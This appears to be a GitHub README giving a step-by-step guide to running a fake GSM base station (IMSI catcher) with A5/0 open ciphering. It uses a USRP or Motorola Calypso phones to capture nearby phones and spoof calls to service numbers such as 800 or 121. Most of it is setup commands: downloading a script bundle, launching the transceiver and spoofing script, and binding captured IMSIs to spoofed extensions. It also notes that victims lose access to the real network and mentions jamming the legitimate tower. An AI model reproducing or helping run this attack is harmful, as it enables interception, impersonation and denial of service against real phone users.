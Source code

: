 # GSM4_IMSICATCHER_HALFMITM_SPOOFING-CALL-WITH-PHYSICAL-MS
* [motorola](https://www.youtube.com/watch?v=ZKa86zAWmQY&pp=ygURZ3NtIHNuaWZmaW5nIDI5YzM%3D) documentation
* [spoofing](https://github.com/godfuzz3r/osmo-nitb-scripts/tree/master)
* [phddays](https://sudonull.com/post/97315-MiTM-Mobile-contest-how-they-broke-mobile-communications-at-PHDays-V-Positive-Technologies-blog)
# Half MITM = Fake BTS only
<p align="center">
  <img width="600" height="400" src="https://github.com/SitrakaResearchAndPOC/GSM_IMSICATCHER_HALFMITM_SPOOFING-SMS-WITH-PHYSICAL-MS/blob/main/2G.jpg">
</p>

# Why it is possible ?
* Fake base station with open ciphering named A5/0, and the  network could be GSM(sms, call), and GPRS, EDGE

# Attack limitations and advantages 
* local attack but could be targeting (to find local victim)
* victim couldn't be reached on the real network (indeed call and sms)
* could be detectable with rooted phone and application like imsi-catcher detector, snoopsnitch because of open network

# Devices  
* USRP
* Two motorolas phone (aka calypso phone on google)

# Pratices
* Install DragonOS 29 or 30 for USRP and debian 9 or 10 for motorola phone
* Create fake bts with open ciphering (A5/0)
* Add one users and modify core network for associating it with number like 8OO or 807 or 808 or 204 or 209 or 121 or 0333300121
* wait for call 


* Solution 1 using USRP
(more stable and no need synchronization of existing BTS so if we jam the existing BTS the half mitm still exists)
```
wget https://raw.githubusercontent.com/SitrakaResearchAndPOC/nitb-script-all/main/osmo-nitb-scripts.zip
```
```
unzip osmo-nitb-scripts.zip
```
```
cd osmo-nitb-scripts
```
Database is at : /var/lib/osmocom/hlr.sqlite3  
Installing all config  
```
bash install_services.sh
```
Running the transceiver
```
osmo-trx-uhd -C /etc/osmocom/osmo-trx-uhd.cfg
```
Running main_uhd_spoof associate with configs/openbsc_spoof.cfg  
ctrl+shift+T  
```
cd osmo-nitb-scripts
```
```
python3 main_uhd_spoof.py
```
ctrl+shift+T
```
cd osmo-nitb-scripts/scripts_spoof1
```
Tape `*#*#4636#*#*` and choose GSM only on your Android phone  
Search GSM network (on your phone), associate with PLMN MCC 001 && MNC 01  
Tape `*#001#` for finding your phone number (extension with osmo-bts)   
```
bash finding_imsi_extenstion.sh
```
You could find imsi and extension  
let's see for example imsi as 646040222463674 and extension as 126
```
bash set_imsi_extension.sh 646040222463674 808
```
Verify by if the association is correct
let's see for example imsi as 646040222463674 and extension as 808
```
bash finding_imsi_extenstion.sh
```
* solution 2 : Not stable for dragonOS, should install [karly](https://www.youtube.com/watch?v=_nGVeG_76W8&pp=ygUJa2FybHkgZ3Nt)
For all [karly_installation](https://github.com/SitrakaResearchAndPOC/CalypsoBTS_Debian)
Use scripts : finding_imsi_extenstion.sh and set_imsi_extension.sh for associating the imsi with extension 808  
Modify the path of database as hlr.sqlite3     
Pratices  (bonification):  
Installing docker on dragonOS where the OS is debian 9 or 10  
Installing all checkout like [karly_installation](https://github.com/SitrakaResearchAndPOC/CalypsoBTS_Debian)
Use scripts : finding_imsi_extenstion.sh and set_imsi_extension.sh for associating the imsi with extension 808  
Modify the path of database as hlr.sqlite3     
Create a github to just install CALL_SPOOFING on docker with dragonOS 29 oir 30 with the two scripts and test it directly
 



